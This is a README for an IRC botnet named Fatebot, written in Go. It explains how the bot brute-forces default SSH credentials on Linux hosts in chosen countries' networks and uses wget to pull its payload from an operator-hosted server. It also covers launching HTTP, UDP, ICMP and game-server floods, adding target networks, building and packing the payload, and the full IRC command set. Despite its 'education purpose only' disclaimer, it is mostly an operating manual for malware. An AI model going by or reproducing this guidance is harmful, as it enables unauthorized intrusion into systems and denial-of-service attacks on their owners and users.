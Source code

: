 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

Develop by Bozer\Bulldozer (old name is R4bin) feel free to do anything with it, read more in License.
<br>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with legal.</br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will Brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Go to "scan.go" file in pkg folder. Add your new network in to the group of varible.

		var_name = "123." // 123.0.0.0/8
		or
		var_name = "123.12" // 123.12.0.0/16
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function, add the case for your network IP and then return a range of your network IP.

		case var_name:
				return bot.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of the IP that you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "123.12"
		var_name = "123.20"
		
	#The IP that look like this it will return range of the id since 0 - 255 by default.
	#That's mean you don't need to add a case in "nextIP" function for your IP.
	

(4) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			bot.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.


<img src="assets/udpflood.png" alt="udp flood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<li>IRC server</li>
<li>Backup IRC server <strong>(Optional)</strong></li>
<li>FTP server <strong>(Optional)</strong></li>
<li>Go compiler</li>
<li>UPX packer <strong>(Optional)</strong></li>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target. Shouldn't have "/" end of The url!!!
	?post 	<url>			Flood HTTP post request to target. Shouldn't have "/" end of The url!!!
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of buffer is 100 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request on valve source engine dst port, By random src port to the target server that used to host online games.
	?scan 	<modes> <ftp>		Scan SSH port on the network, Brute-Force attack to the target and load the payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united state of america network. 
		-r		Scan with random ip. 	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
